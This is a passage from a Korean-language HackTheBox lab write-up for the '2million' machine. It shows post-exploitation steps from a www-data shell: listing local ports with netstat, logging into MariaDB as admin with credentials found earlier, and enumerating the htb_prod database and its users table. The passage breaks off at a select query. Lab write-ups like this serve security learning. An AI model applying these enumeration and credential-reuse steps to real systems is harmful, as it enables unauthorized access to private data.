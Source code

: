 ## [0x05] login mysql
---
db가 어느 port에서 동작하는지 한번 목록을 보니 높은 확률로 3306일 것 같다.
``` bash
www-data@2million:/etc/php/8.1/fpm$ netstat -nap
Proto Recv-Q Send-Q Local Address           Foreign Address         State	PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN		-
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN	1189/nginx: worker
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN		-
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN		-
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN		-
tcp        0      0 127.0.0.1:3306          127.0.0.1:33998         ESTABLISHED	-
tcp        0      0 127.0.0.1:35162         127.0.0.1:11211         ESTABLISHED	-
tcp        0      0 127.0.0.1:11211         127.0.0.1:35162         ESTABLISHED	-
tcp        0      1 10.10.11.221:41022      8.8.8.8:53              SYN_SENT	-
tcp        0    129 10.10.11.221:55240      10.10.14.36:443         ESTABLISHED	-
```

성공적으로 로그인된 것을 볼 수 있다. 다만, mysql 계정 권한도 root는 아니므로 추가적인 권한 상승 방법을 찾아야 한다.
``` bash
# login mysql
www-data@2million:/etc/php/8.1/fpm$ mysql -h 127.0.0.1 -P 3306 -u admin -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 62
Server version: 10.6.12-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>

# mysql 권한 확인
www-data@2million:/etc/php/8.1/fpm$ ps -ef | grep mysql
mysql       1257       1  0 Mar28 ?        00:00:15 /usr/sbin/mariadbd
www-data    3767    3702  0 01:54 pts/0    00:00:00 grep mysql
```


``` bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb_prod           |
| information_schema |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use htb_prod;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb_prod]> show tables;
+--------------------+
| Tables_in_htb_prod |
+--------------------+
| invite_codes       |
| users              |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [htb_prod]> select * from users;
```